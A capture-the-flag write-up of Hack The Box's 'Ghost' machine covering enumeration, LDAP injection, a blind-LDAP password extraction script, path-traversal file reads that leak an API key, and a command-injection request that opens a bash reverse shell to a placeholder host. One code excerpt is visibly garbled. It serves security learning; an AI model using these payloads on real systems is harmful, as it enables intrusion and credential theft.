









# Ghost - Windows (Insane)

## Initial Enumeration

We begin with a full TCP port scan and default enumeration using nmap:
```
└─$ nmap -p- --min-rate=1000 -T4 -sC -sV 10.10.11.24 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-19 03:33 EDT
Stats: 0:02:22 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 48.15% done; ETC: 03:36 (0:00:11 remaining)
Nmap scan report for 10.10.11.24
Host is up (0.20s latency).
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-19 07:36:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
443/tcp   open  https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2025-04-19T07:37:36+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-04-18T10:04:23
|_Not valid after:  2055-04-18T10:04:23
| ms-sql-ntlm-info: 
|   10.10.11.24:1433: 
|     Target_Name: GHOST
|     NetBIOS_Domain_Name: GHOST
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: ghost.htb
|     DNS_Computer_Name: DC01.ghost.htb
|     DNS_Tree_Name: ghost.htb
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.10.11.24:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GHOST
|   NetBIOS_Domain_Name: GHOST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ghost.htb
|   DNS_Computer_Name: DC01.ghost.htb
|   DNS_Tree_Name: ghost.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-19T07:36:58+00:00
|_ssl-date: 2025-04-19T07:37:35+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Not valid before: 2025-04-17T10:01:38
|_Not valid after:  2025-10-17T10:01:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
8008/tcp  open  http          nginx 1.18.0 (Ubuntu)
|_http-generator: Ghost 5.78
|_http-title: Ghost
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
8443/tcp  open  ssl/http      nginx 1.18.0 (Ubuntu)
| http-title: Ghost Core
|_Requested resource was /login
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=core.ghost.htb
| Subject Alternative Name: DNS:core.ghost.htb
| Not valid before: 2024-06-18T15:14:02
|_Not valid after:  2124-05-25T15:14:02
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
49443/tcp open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51590/tcp open  msrpc         Microsoft Windows RPC
51646/tcp open  msrpc         Microsoft Windows RPC
57606/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-04-19T07:36:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.70 seconds
```

Summary of Findings:

The scan reveals that the target is likely a Windows Server configured as a Domain Controller in an Active Directory (AD) environment. Evidence includes:<br>
Kerberos (TCP/88) – Common on domain controllers.<br>
LDAP & LDAPS (TCP/389, 636, 3268, 3269) – Active Directory services.<br>
SMB & RPC services (TCP/135, 139, 445, 593, 3389, etc.)<br><br>
Hostnames and domain information extracted from services and SSL certs:<br>
ghost.htb (AD domain)<br>
DC01.ghost.htb (likely the domain controller)<br>
core.ghost.htb (web application interface)<br><br>
Additional Services Identified:<Br>
Microsoft SQL Server 2022 on TCP/1433<br>
RDP (Remote Desktop Protocol) on TCP/3389<br><br>
Web Servers:<br>
TCP/8008 – Nginx hosting Ghost CMS<br>
TCP/8443 – Nginx with SSL, Ghost Admin panel (core.ghost.htb)<br><br>

## Host File Configuration
To ensure name resolution for internal domains, we append the following to /etc/hosts:
```
echo "10.10.11.24 DC01.ghost.htb core.ghost.htb ghost.htb" | sudo tee -a /etc/hosts
```

## Web Enumeration: Ghost CMS on Port 8008
Navigating to http://ghost.htb:8008 reveals a Ghost CMS interface, but without much actionable content.



## Subdomain Fuzzing
We attempt host fuzzing to uncover any hidden subdomains:
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://ghost.htb:8008 -H "Host: FUZZ.ghost.htb"
```
Result: Discovered a new subdomain — `intranet.ghost.htb`
```
echo "10.10.11.24 intranet.ghost.htb" | sudo tee -a /etc/hosts
```

## Intranet Portal: LDAP Authentication
Visiting `http://intranet.ghost.htb` shows a login form. Viewing the source reveals variable names such as `ldap-username` and `ldap-secret`, suggesting LDAP-based authentication.
This implies the backend may use user-supplied input directly in an LDAP query, potentially structured like:
```
ldap_filter = f"(uid={input_username})"
```
If this is unsanitized, it may be vulnerable to LDAP Injection.




## LDAP Injection — Authentication Bypass
We test a simple injection using wildcard values:
```
Username: *  
Password: *
```
This bypasses authentication indicates a classic LDAP wildcard injection vulnerability (* matches any value).

## Internal App Access
Upon bypassing the login, we're taken to a dashboard with a "News" section. A post mentions Git migration and a temporary account.
This suggests that the next objective is to access a Gitea instance using a valid authentication token.



To proceed, we'll update `/etc/hosts` to prepare for further enumeration:
```
echo "10.10.11.24 gitea.ghost.htb" | sudo tee -a /etc/hosts
```

## LDAP Injection and Credential Extraction
After analyzing the login request through BurpSuite, it became clear the application uses an LDAP backend for authentication. The form fields submitted during login are:

* 1_ldap-username
* 1_ldap-secret
* 0 (likely an internal state token)

The structure and behavior of the login hinted at an opportunity for blind LDAP injection. Specifically, when supplying a 1_ldap-secret value ending with a wildcard (*), the application would return a 303 redirect if the guess was partially correct, suggesting a successful partial bind operation.



To automate extraction of the password for the known username `gitea_temp_principal`, I leveraged the following Python script:

```
import string
import requests

login_url = 'http://intranet.ghost.htb:8008/login'

req_headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

password = ""

while True:
    for char in string.ascii_lowercase + string.digits:
        password_guess = f'{password}{char}*'
        data = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, password_guess),
            '0': (None, '[{},"$K1"]')
        }

        response = requests.post(login_url, headers=req_headers, data=data)
        
        if response.status_code == 303:
            password += char
            print(f"Current password: {password}*")
            break
    else:
        break

print(f"Final password: {password}")

```


This script incrementally brute-forces each character of the password by observing changes in server behavior. The wildcard character (*) in LDAP allows partial matching, and the server's redirect behavior acts as an indicator of correct guesses.

*Credit to Rahul Hoysala for the approach that made this significantly faster.*

Once the full password was extracted, I successfully authenticated as `gitea_temp_principal` and gained access to the internal Git service hosted at `gitea.ghost.htb`.


## Gitea Access & Repository Discovery
Upon logging into gitea.ghost.htb, I found two public repositories associated with the account:
* blog
* intranet



Inside the blog repo, I reviewed the `README.md` and spotted two keys:
* A public Ghost content API key
* A secondary key: `DEV_INTRANET_KEY` (used for internal features between the blog and the intranet)



Next, I examined `posts-public.js`, where I found something juicy — a path traversal vulnerability:


```
            const posts = await postsService.browsePosts(options);
            const extra = frame.original.query?.extra;
            if (extra) {
                const fs = require("fs");
                if (fs.existsSync(extra)) {
                    const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
                    posts.meta.extra = { [extra]: fileContent };
                }
            }
            return posts;
```

This suggests we can potentially read arbitrary files from the `/var/lib/ghost/extra/` directory.

I sent a crafted request to test `/etc/passwd`:
```
└─$ curl 'http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../../../../etc/passwd&key=a5af628828958c976a3b6cc81a'
```
And boom:
```
{"posts":[<SNIP>"extra":{"../../../../../../../etc/passwd":"root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt<SNIP>
```
Now that we've confirmed the path traversal is working, Let's try to access environment variables via `/proc/self/environ`:
```
└─$ curl 'http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../../../../proc/self/environ&key=a5af628828958c976a3b6cc81a'
```
```
{"posts":[<SNIP>"extra":{"../../../../../../../proc/self/environ":"HOSTNAME=26ae7990f3dd\u0000database__debug=false\u0000YARN_VERSION=1.22.19\u0000PWD=/var/lib/ghost\u0000NODE_ENV=production\u0000database__connection__filename=content/data/ghost.db\u0000HOME=/home/node\u0000database__client=sqlite3\u0000url=http://ghost.htb\u0000DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe\<SNIP>
```
Success! Now we have the internal API key.


## Intranet Repository – Command Execution Discovery

With the key in hand, I explored the second repo: intranet.
There, I came across a potential command injection vulnerability in:
`backend/src/api/dev/scan.rs`



```
#[post("/scan", format = "json", data = "«data»")]
pub fn scan(_guard: DevGuard, data: Json<ScanRequest>) -> Json<ScanResponse>
    // currently intranet_url_check is not implemented,
    // but the route exists for future compatibility with the blog
    let result = Command:: new("bash" )
        .arg("-c")
        arg(format! ("intranet_url_check (]", data.url))
        output (;
```
It uses `bash -c` with unvalidated user input in `data.url`, textbook command injection.

I prepared a reverse shell and sent a payload to exploit the vulnerable scan endpoint:
```
nc -lvnp 4444
```
```
└─# curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"http://intranet.ghost.htb:8008; /bin/bash -i >& /dev/tcp/YOURIP/PORT 0>&1"}'
```

We should be able to catch a reverse shell as a valid user or potentially an administrator through this endpoint. Unfortunately, I was unable to complete full exploitation, as the machine was moved to the Pro Lab (VIP-only) environment before I could finish testing the payload.<br>
WHAT A TIMING HACK THE BOX!<br>
This writeup reflects the steps I was able to document during active enumeration and partial exploitation. I plan to revisit and update this report once I upgrade to VIP and gain access to the machine again for full exploitation and privilege escalation analysis.


